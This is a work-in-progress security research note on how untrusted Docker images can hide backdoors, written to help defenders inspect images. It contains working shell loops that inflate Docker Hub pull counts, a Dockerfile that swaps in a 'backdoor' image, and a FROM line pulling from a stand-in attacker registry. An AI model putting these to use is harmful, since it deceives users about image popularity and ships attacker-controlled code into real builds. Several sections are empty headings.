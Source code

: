 # (WIP) Research on docker backdooring
Pantelis Roditis (09/07/2020)

For the past x years I've been developing docker containers that can be used in the right `wrong` way to emulate fully functional linux systemsm which is in stark contrast to how docker was meant to be used but anyways.

During this time I have come across a load of different types of suspicious docker containers from both docker hub and github projects.

Just like any other process of cybersecurity apply common logic when you are about to blindly trust an docker image, simply because it can be found on docker hub.

This following document includes research on what you shouldn't trust, the reason and hopefully an example of how it can be abused. This list is in no means complete, it is a documentation of what i look for when inspecting docker images from untrusted sources.


## Docker Hub stats
First and foremost don't trust stats provided by docker hub. The stars and pull requests can be easily manipulated to a huge degree.

If the image you're looking at has suspiciously high numbers of pulls and stars for its perceived reputation then something might be fishy.

In order to manipulate the pull numbers a malicious user could create an extremely small image, kilobytes in size and push it and then make pull requests to increase the number of pull requests. Some of the ways a bad actor can do that

**docker pull**

```sh
name="repo/image"
for i in $(seq 1 1000);do
  docker pull "${name}"
  docker rmi -f "${name}"
done
```


**ab (ApacheBenchmark)**
```sh
name="repo/image"
token=$( curl -s "https://auth.docker.io/token?service=registry.docker.io&scope=repository:${name}:pull" | jq -r .token )
ab -n 50 -c 10 -H "Authorization: Bearer $token" "https://registry.hub.docker.com/v2/${name}/manifests/latest"
```

**curl**
```sh
for i in $(seq 1 50);do
  token=$( curl -s "https://auth.docker.io/token?service=registry.docker.io&scope=repository:${name}:pull" | jq -r .token )
  curl -s -H "Authorization: Bearer $token" "https://registry.hub.docker.com/v2/${name}/manifests/latest" >/dev/null
done
```

## The FROM statement
Usually one of the top most statements of a `Dockerfile`.  It is used to instruct docker to use another image as a base. Any following commands within the `Dockerfile` will be executed as if they were run from within a container of the imported image.

Usual tricks that can be found in this section include but not limited to the following


### Multi-stage builds

A `Dockerfile` can have more than one `FROM` statements. Import from a legitimate image, perform some tasks to confuse user and import a malicious image last to be executed.

```Dockerfile
FROM debian
RUN apt-get install curl bash
...
FROM backdoor
```

Although the image started with `FROM debian` it will end up running whatever `FROM backdoor` image has.

### Image with registry part
One of the things that `docker` will do for you is to parse as URL the image name. This means that the following statement is valid
```sh
FROM badregistry.attacker.io:443/repo/backdoor
```

Upon building this image docker will connect to `badregistry.attacker.io:443` and attempt to fetch the image `repo/backdoor`


### Unicode `FROM` image

Pay close attention at the FROM image names as Unicode characters can be used to make it look like it came from a legit repository.

* [IDN homograph attack](https://en.wikipedia.org/wiki/IDN_homograph_attack)
* [Unicode Bidirectional Text Spoofing](http://unicode.org/reports/tr36/tr36-8.html#Bidirectional_Text_Spoofing)


## The RUN statement

## The COPY/ADD statement

## The VOLUME statement

## The CMD statement

## The ENTRYPOINT statement

## The entrypoint.sh script

## Package manager repos

## The docker run/create CLI params
Pay close attention at the docker parameters required to run the container. The parameters that usually make me suspicious are:
* `--privileged`
* `--cap_add`
## Refs
* https://www.fortinet.com/blog/threat-research/yet-another-crypto-mining-botnet
* https://kromtech.com/blog/security-center/cryptojacking-invades-cloud-how-modern-containerization-trend-is-exploited-by-attackers
